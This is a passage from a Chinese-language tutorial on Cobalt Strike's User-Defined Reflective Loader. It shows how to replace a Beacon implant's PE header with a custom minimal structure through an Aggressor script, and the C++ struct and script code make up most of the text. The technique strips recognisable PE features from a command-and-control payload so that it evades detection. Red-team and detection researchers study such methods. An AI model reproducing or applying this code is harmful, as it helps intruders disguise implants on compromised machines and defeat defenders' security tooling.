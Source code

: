在Profile配置中，Stage块的某些选项允许用户修改明显的PE文件特征，比如`magic_mz`，它允许用户自定义4个字节的MZ头，但是当UDRL应用后此功能将不再支持，不过我们可以使用Aggressor脚本去实现此功能，甚至比`magic_mz`功能更加强大

首先在UDRL中，我们先自定义`PE Header`结构，在此结构中，我们仅存放PE头结构和节表结构等有效信息。

```cpp
typedef struct _SECTION_INFORMATION {
	DWORD VirtualAddress;
	DWORD PointerToRawData;
	DWORD SizeOfRawData;
} SECTION_INFORMATION, *PSECTION_INFORMATION;

typedef struct _PE_HEADER_DATA {
	DWORD SizeOfImage;
	DWORD SizeOfHeaders;
	DWORD entryPoint;
	QWORD ImageBase;
	SECTION_INFORMATION Text;
	SECTION_INFORMATION Rdata;
	SECTION_INFORMATION Data;
	SECTION_INFORMATION Pdata;
	SECTION_INFORMATION Reloc;
	DWORD ExportDirectoryRVA;
	DWORD DataDirectoryRVA;
	DWORD RelocDirectoryRVA;
	DWORD RelocDirectorySize;
} PE_HEADER_DATA, *PPE_HEADER_DATA;
```



在aggressor脚本中，为了对接上述我们自定义的`PE Header`，我们可以使用`pedump`函数将原始Beacon的PE头信息映射至一个哈希变量`pe_header_map`中, 然后将其再打包成一个字节流并赋值给`pe_header_data`变量

```perl
%%pe_header_map = pedump($input_dll);

$pe_header_data = pack(
    "I-I-I-", 
    %pe_header_map["SizeOfImage.<value>"],
    %pe_header_map ["SizeOfHeaders.<value>"],
    %pe_header_map ["AddressOfEntryPoint.<value>"]
); 
```



为了替换Beacon的原始PE头，我们需先使用`substr`函数提取PE文件的SECTION部分，然后再将SECTION部分与新创建的`pe_header_data`进行合并

```perl
# 获取原始PE头的大小
$size_of_original_pe_header = %pe_header_map["SizeOfHeaders.<value>"];

# 通过截取原始PE头的大小来获取Section部分的内容
$input_dll_pe_sections = substr($input_dll, $size_of_original_pe_header);

# 将自行创建的PE头与原始Beacon的Section部分进行合并
$modified_beacon = $pe_header_data . $input_dll_pe_sections;
```
